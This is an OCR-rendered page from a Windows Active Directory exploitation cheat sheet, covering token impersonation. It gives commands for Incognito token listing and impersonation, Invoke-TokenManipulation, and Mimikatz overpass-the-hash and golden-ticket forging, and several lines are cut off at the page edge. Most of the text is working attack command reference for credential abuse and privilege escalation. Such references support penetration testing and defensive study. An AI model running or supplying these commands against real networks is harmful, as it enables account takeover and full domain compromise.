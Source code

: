 Token Manipulation
Tokens can be impersonated from other users with a
session/running processes on the machine A similar effect can

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

10/31

be achieved by using e g CobaltStrike to inject into said
processes

Incognito

# Show tokens on the machine
.\incognito.exe list_tokens -u
# Start new process with token of a specific user
.\incognito.exe execute -c "domain\user" C:\Windows\syst

If you’re using Meterpreter you can use the built in
Incognito module with use incognito the same commands
are available

Invoke TokenManipulation
# Show all tokens on the machine
Invoke-TokenManipulation -ShowAll
# Show only unique, usable tokens on the machine
Invoke-TokenManipulation -Enumerate
# Start new process with token of a specific user
Invoke-TokenManipulation -ImpersonateUser -Username "dom
# Start new process with token of another process
Invoke-TokenManipulation -CreateProcess "C:\Windows\syst

Mimikatz
# Overpass the hash
sekurlsa::pth /user:Administrator /domain:domain.local /
# Golden ticket (domain admin, w/ some ticket properties
kerberos::golden /user:Administrator /domain:domain.loca
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

11/31
